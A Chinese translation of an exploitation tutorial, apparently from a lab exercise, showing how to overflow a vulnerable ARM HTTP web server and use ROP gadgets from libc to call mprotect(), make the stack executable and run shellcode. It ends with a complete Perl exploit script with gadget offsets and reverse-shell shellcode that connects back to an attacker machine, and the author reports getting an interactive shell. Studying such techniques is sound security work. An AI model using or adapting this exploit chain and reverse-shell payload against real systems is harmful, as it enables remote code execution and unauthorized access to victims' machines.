# ARM 利用—通过使用 ROP 调用 mprotect()来击败 NX

> 原文：<https://infosecwriteups.com/arm-exploitation-defeating-nx-by-invoking-mprotect-using-rop-1450b6667c16?source=collection_archive---------1----------------------->

在这篇文章中，我将详细介绍如何利用 return-to-libc 攻击来利用带有不可执行堆栈的易受攻击的 HTTP web 服务器。此外，该漏洞利用将利用面向返回的编程(ROP)技术来链接 libc 中的小工具，以便(1)调用 mprotect()来修改堆栈权限以允许读/写/执行，以及(2)从堆栈中执行我们的外壳代码。

# 什么是返回到 libc？

如果您以前做过缓冲区溢出练习，您应该知道这种技术是用过多的字符使程序溢出，这样您的有效负载就会使程序计数器和堆栈中的内容溢出。目标是修改程序计数器以跳转到执行攻击者外壳代码的堆栈地址。但是，如果程序的堆栈权限设置为非执行，这个概念就行不通了。


图 1 — Stack 是不可执行的，而 libc 是可执行的。

为了克服这个问题，我们可以利用 C 标准库(“libc”)来直接执行预先存在的功能(例如 system、mprotect 等)。).

# ROP 是什么？

引用维基百科的话，ROP 是一种技术，攻击者获得调用堆栈的控制权，以劫持程序控制流，然后执行精心选择的已经存在于机器内存中的机器指令序列，称为“小工具”。每个小工具通常以返回指令结束，并位于现有程序和/或共享库代码内的子例程中。这些小工具连接在一起，使得攻击者能够在终端上执行任意操作。

我经常引用的一个非常好的比喻是报纸。想象一下，libc 是一份包含大量代码的报纸。不直接从栈中执行有效载荷，同样可以通过从 libc 中执行代码来实现。我们可以从不同的页面提取(链接)这些代码(小工具)来执行我们的执行。


图 2——来自 libc 的链接小工具的报纸类比

我真正喜欢 ROP 的是，有多种方法可以实现相同的最终目标。它迫使我跳出框框思考，把不同的小玩意拼凑在一起。这个概念就像一个七巧板，有许多不同的形状和大小。目标是利用特定的块来很好地适应方形边界，这可能有许多不同的可能性。


图 3: [七巧板类比](https://rukminim1.flixcart.com/image/352/352/jnnhua80/block-construction/3/v/k/rainbow-color-wooden-tangram-kids-7-piece-jigsaw-puzzle-building-original-imafaah2gyydzf2f.jpeg?q=70)

# 易受攻击的 HTTP web 服务器

像所有其他缓冲区溢出练习一样，第一步是确定程序计数器的偏移量($PC)和堆栈指针内容的偏移量($SP)。在 Kali 中，我们可以调用' pattern_create.rb '脚本来生成一个唯一的模式字符串，我们稍后可以用它来标识这些寄存器的偏移量。

```
GET /Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A HTTP/1.0
```



图 4:程序崩溃时的状态。

当程序崩溃时，我们可以通过提取$PC 中存储的值和$SP 中的内容来确定偏移量。

需要注意的是，在 ARM 架构中，程序可以从 ARM (4 字节)转换为 Thumb (2 字节)，反之亦然。它的$PC 计数器最低有效位将始终是一个偶数(0)。假设我们正在执行一个典型的缓冲区溢出，大量的“A”被转换为 0x41，$PC 将被反映为 0x41414140 (THUMB 标志设置为 0x1)，而不是 0x41414141。因此，在这种情况下，请注意 THUMB 标志被设置，因此，当使用 Kali 中的“pattern_offset.rb”工具时，我们必须向$PC 添加 1。



图 5:在 kali 中使用‘pattern _ offset . Rb’分别确定$PC 和$SP 的偏移量。



图 6:控制$PC 和$SP 中内容的状态

为了验证发现的结果，我修改了漏洞脚本，如下所示:

```
#!/usr/bin/perl
$| = 1;$buf = “A” x 347;
$buf .= “B” x 4;
$buf .= “A” x 16;
$buf .= “D” x 50;
$uri = $buf;# URL Encode
$uri =~ s/([^A-Za-z0–9\/])/sprintf(“%%%02X”, ord($1))/seg;
$request = “GET /${uri} HTTP/1.0\n\n”;
print $request;
```



图 7:控制$PC 和$SP 的内容。


图 8:堆栈是不可执行的。

此时，我已经成功地覆盖了$PC 和$SP 中的内容。但是，我仍然无法执行堆栈中的外壳代码。下一步是调用 libc 中的 mprotect()来修改堆栈权限。

# mprotect()是什么？

如 Linux 手册页中所述，mprotect 是一个修改内存区域权限的函数。它接受三个参数:

*   内存区域的起始地址。
*   区域的长度。简而言之，结束地址应该在哪里？
*   权限设置
    (PROT _ 读取— 0x1，PROT _ 写入— 0x2，PROT _ 执行— 0x4，PROT _ 无— 0x0)



图 mprotect()手册页

有了关于 mprotect 的信息，**的最终目标**是确保在调用 mprotect 调用之前，用以下值设置以下寄存器。

*   r0 = 0x befb 000*(参考图 7，$SP 地址从 0xbeffb3a8 开始递增。因此，从这个地址出发是安全的)*
*   R1 = 0x01010101 *(足够大的长度以容纳堆栈中的有效载荷，代码中没有空字节)*
*   R2 = 0x 00000007*(允许读取、写入和执行)*

# 从 libc 查找相关小工具来设置 R0、R1 和 R2

有趣的部分来了，从“报纸”上找到小工具来设置注册表的值。我对提取的 libc 文件“/lib/arm-Linux-gnueabihf/libc-2.13 . so”使用了工具“Ropper”。在手臂和拇指状态中搜索可能的小工具是很重要的。



图 10:ARM 模式下的 Ropper



图 11:arm thumb 模式下的 Ropper

以下是使用搜索功能时的一些有用提示。

```
(libc-2.13.so/ELF/ARMTHUMB)> help search
search [/<quality>/] <string> — search gadgets./quality/ The quality of the gadget (1 = best). The better the quality the less instructions are between the found instruction and ret? any character% any string
```

# 设置 R1 = 0x01010101 的小工具

我已经决定开始寻找 R1 和 R2 的小工具，因为它比 R0 更简单。在整个利用脚本中，我们必须确保有效载荷中不存在空字节(即 0x00)，否则利用将不会成功。

因为我可以控制堆栈的内容，所以最简单的方法是寻找一个弹出指令，允许我将堆栈的下一个值放入 R1。通过简单的搜索，我找到了一个“pop {r1，pc}”的小工具。我可以简单地将 0x01010101 的值放入 R1，并控制下一个返回地址放入程序计数器。



图 12:libc 中的指令将堆栈中的值弹出到 r1，并将堆栈中的下一个值弹出到程序计数器。



图 13:为 R1 绘制漏洞脚本。

# 设置 R2 = 0x0000007 的小工具

对于 R2，由于我无法将空字节放入堆栈(0x **000000** 07)，我不得不寻找将立即值 7“移动”到任何寄存器中的小工具。进行搜索时，我发现了一个小工具，它将立即值 7 移动到 R0，并将堆栈的值弹出到 R4、R5、R6 和 PC。



图 14:将立即值 7 移动到 R0。

太好了！现在，我必须找到一个小工具，移动 R0 值到 R2。在“mov r2，r0”上进行搜索没有结果。然而，如果我们尝试使用' movs r2，r0 '，会返回大量结果。

*MOVS 指令执行与 MOV 指令相同的操作，但也更新 N 和 Z 标志。



图 15:将 R0 的值移动到 R2



图 16:为 R2 绘制漏洞脚本。

# 设置 R0 = 0xbeffb000 的小工具

设置 R0 稍微复杂一些。对于这么大的地址值，我不得不使用算术运算(AND、ADD、SUB、EOR 等)。)并同时确保不存在空字节。因此，我必须想出可能的方法来达到预期的结果。

我试图搜索“and”操作，注意到一条指令接受 R0 和 R3，并将值存储到 R0 中。随后，它分支进入链接寄存器。



图 17:针对 R0 和 R3 的 AND 指令

在脑子里，我做了一些计算，如果 R0 = 0xbeffb010，R3 = 0xfffff001，那就会得到 0xbeffb000。首先，我需要找到一个小工具，允许我直接将这些值放入 R0 和 R3。



图 18:将我们定义的值放入 R0 和 R3 的弹出指令

其次，我必须处理链接寄存器(LR)中的值。我试图寻找一个可以用我的召唤值覆盖 LR 的小工具。做一个简单的搜索，我发现一个 pop {lr}指令，它随后分支到 lr。



图 19:覆盖 LR 寄存器的弹出指令

最简单的方法是在 LR 地址中定义一条 pop {PC}指令，如图 18 所示，如果一条指令分支到 LR，它会将堆栈中的下一项弹出到 PC。



图 20:映射 R0 的漏洞脚本。

# 调用 mprotect 并在堆栈中执行 shell 代码

设置三个寄存器值后的下一步是调用 libc 中的 mprotect 函数。类似地，我们可以通过在 GDB 使用 print 命令来确定 mprotect 的偏移量。



图 21:使用 GDB 识别 mprotect 的偏移

修改堆栈权限的权限后的最后一步是跳转到堆栈指针，执行攻击者的外壳代码。通过利用 LR = pop {PC}，一旦 mprotect 返回到调用者函数，它就会将堆栈中最新的指令弹出到 PC。因此，我们可以将 BX SP 直接设置在 mprotect 之后，它将执行 shell 代码。



图 22:搜索 BX SP 指令



图 23:映射漏洞脚本的最后部分。

# 将碎片拼在一起

现在我们已经确定了我们所有的小工具，是时候把这些碎片放在一起了。



图 24:最终的漏洞脚本

作为调试的一部分，我在 mprotect 调用之前放置了垃圾地址来使程序崩溃，以观察存储在 R0、R1 和 R2 中的值。



图 25:调用 mprotect 之前的状态

类似地，在 mprotect 调用之后，我放置了一个垃圾地址来使程序崩溃，以观察堆栈权限是否按照预期更改为读/写/执行。



图 26:调用 mprotect 后的状态

在我的 shell 代码中，我放置了一个反向 shell 有效负载。通过在攻击者的机器上设置一个监听器，我从受害者的端点获得了一个交互式 shell！



图 27:shell 代码的成功执行

```
#!/usr/bin/perl$| = 1;$libc = 0xb6e9c000;                     # libc base
$shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x92\x1a\xc8\x27\x51\x37\x01\xdf\x04\x1c\x0a\xa1\x4a\x70\x10\x22\x02\x37\x01\xdf\x3f\x27\x20\x1c\x49\x1a\x01\xdf\x20\x1c\x01\x21\x01\xdf\x20\x1c\x02\x21\x01\xdf\x04\xa0\x92\x1a\x49\x1a\xc2\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\xc0\xa8\xc8\x01\x2f\x62\x69\x6e\x2f\x73\x68\x58";
$buf = "A" x 347;
$buf .= pack("V", $libc + 0x1019d4); #pop {r1, pc}
$buf .= "C" x 16;
$buf .= pack("V", 0x01010101); # set r1
$buf .= pack("V", $libc + 0xd68ec); #mov r0, #7; pop {r4,r5,r6,pc}
$buf .= "A" x 4; # r4
$buf .= "B" x 4; # r5
$buf .= "D" x 4; # r6
$buf .= pack("V", $libc + 0xfe087); #mov r2, r0; pop {r4, pc}
$buf .= "A" x 4; 
$buf .= pack("V", $libc + 0x75a69); #pop {r0, r3, pc}
$buf .= pack("V", 0xbeffb010); #r0
$buf .= pack("V", 0xfffff001); #r3
$buf .= pack("V", $libc + 0x3c420); #pop {lr}; add sp, sp, #4; bx lr;
$buf .= pack("V", $libc + 0x8cec5); #pop {pc};
$buf .= "A" x 4;
$buf .= pack("V", $libc + 0x64934); #and r0, r3, r0; bx lr;
$buf .= pack("V", $libc + 0xc70f0); #mprotect()
$buf .= pack("V", $libc + 0x5531); #bx sp;
$buf .= $shellcode;
$uri = $buf;# URL Encode
$uri =~ s/([^A-Za-z0-9\/])/sprintf("%%%02X", ord($1))/seg;$request = "GET /${uri} HTTP/1.0\n\n";
print $request;
```

总而言之，我分享的只是通过调用 mprotect()函数绕过 NX 堆栈的众多方法之一。我真的很喜欢 ROP 技术，因为它真的需要我提前计划，并思考不同的小工具如何一起工作。最令人满意的部分是整个利用的完成，其中外壳代码被成功地执行以达到最终期望的结果。